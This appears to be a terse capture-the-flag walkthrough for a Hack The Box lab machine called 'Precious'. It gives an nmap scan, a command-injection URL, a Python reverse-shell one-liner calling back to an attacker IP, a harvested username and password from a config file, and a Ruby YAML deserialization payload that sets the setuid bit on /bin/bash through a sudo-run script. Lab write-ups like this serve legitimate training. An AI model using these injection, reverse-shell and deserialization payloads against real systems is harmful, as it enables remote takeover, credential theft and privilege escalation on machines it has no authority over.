


```
C:\home\kali> nmap -sV -sC 10.10.11.189     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-14 05:13 EDT
Nmap scan report for 10.10.11.189
Host is up (0.27s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp   open     http          nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
389/tcp  filtered ldap
1058/tcp filtered nim
1947/tcp filtered sentinelsrm
5000/tcp filtered upnp
5009/tcp filtered airport-admin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.77 seconds
```

it redirects to precious.htb
but not able ot access site so add to /etc/hosts

after /etc host and giving th etun ip i have the information



injection vuln exists:

http://10.10.14.16/?name=%20`python3 -c "print('hello')"`



```python
http://10.10.14.16/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

sudo /usr/bin/ruby /opt/update_dependencies.rb

